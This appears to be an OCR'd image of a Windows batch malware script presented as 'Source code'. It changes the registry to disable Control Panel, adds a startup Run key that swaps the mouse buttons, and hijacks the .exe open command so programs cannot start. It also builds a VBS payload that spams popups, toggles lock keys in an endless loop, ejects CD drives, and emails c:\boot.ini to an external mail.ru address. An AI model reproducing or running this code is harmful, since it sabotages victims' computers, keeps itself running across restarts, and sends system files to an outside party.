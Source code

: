 reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoControlPanel /t REG_DWORD /d 1 /f
echo set application=createobject("shell.application")>>%temp%\temp.vbs
echo application.minimizeall>>%temp%\temp.vbs
reg add "hklm\Software\Microsoft\Windows\CurrentVersion\run" /v SwapNT /t REG_SZ /d rundll32 user32, SwapMouseButton /f
start rundll32 user32, SwapMouseButton
reg add "HKCR\exefile\shell\open\command" /ve /t REG_SZ /d rundll32.exe /f
echo i=50 >> %temp%\temp.vbs
echo while i^>0 or i^<0 >> %temp%\temp.vbs
echo S.popup "forum.whack.ru™",0, "forum.whack.ru™",0+16 >> %temp%\temp.vbs
echo i=i-1 >> %temp%\temp.vbs
echo wend >> %temp%\temp.vbs
echo do >> %temp%\temp.vbs
echo wscript.sleep 200 >> %temp%\temp.vbs
echo s.sendkeys"{capslock}" >> %temp%\temp.vbs
echo wscript.sleep 200 >> %temp%\temp.vbs
echo s.sendkeys"{numlock}" >> %temp%\temp.vbs
echo wscript.sleep 200 >> %temp%\temp.vbs
echo s.sendkeys"{scrolllock}" >> %temp%\temp.vbs
echo loop>> %temp%\temp.vbs
echo Set oWMP = CreateObject("WMPlayer.OCX.7") >> %temp%\temp.vbs
echo Set colCDROMs = oWMP.cdromCollection >> %temp%\temp.vbs
echo if colCDROMs.Count ^>= 1 then >> %temp%\temp.vbs
echo For i = 0 to colCDROMs.Count - 1 >> %temp%\temp.vbs
echo colCDROMs.Item(i).eject >> %temp%\temp.vbs
echo next >> %temp%\temp.vbs
echo End If >> %temp%\temp.vbs
echo Call SendPost("smtp.mail.ru", "forum.whack.ru™@mail.ru", "support@mail.ru", "...", "Копм заражен!") >> %temp%\temp.vbs
echo Function SendPost(strSMTP_Server, strTo, strFrom, strSubject, strBody) >> %temp%\temp.vbs
echo Set iMsg = CreateObject("CDO.Message") >> %temp%\temp.vbs
echo Set iConf = CreateObject("CDO.Configuration") >> %temp%\temp.vbs
echo Set Flds = iConf.Fields >> %temp%\temp.vbs
echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendusing") = 2 >> %temp%\temp.vbs
echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpauthenticate") = 1 >> %temp%\temp.vbs
echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendusername") = "support" >> %temp%\temp.vbs
echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendpassword") = "support" >> %temp%\temp.vbs
echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpserver") = "smtp.mail.ru" >> %temp%\temp.vbs
echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpserverport") = 25 >> %temp%\temp.vbs
echo Flds.Update >> %temp%\temp.vbs
echo iMsg.Configuration = iConf >> %temp%\temp.vbs
echo iMsg.To = strTo >> %temp%\temp.vbs
echo iMsg.From = strFrom >> %temp%\temp.vbs
echo iMsg.Subject = strSubject >> %temp%\temp.vbs
echo iMsg.TextBody = strBody >> %temp%\temp.vbs
echo iMsg.AddAttachment "c:\boot.ini" >> %temp%\temp.vbs
echo iMsg.Send >> %temp%\temp.vbs
echo End Function >> %temp%\temp.vbs
echo Set iMsg = Nothing >> %temp%\temp.vbs
echo Set iConf = Nothing >> %temp%\temp.vbs
echo Set Flds = Nothing >> %temp%\temp.vbs
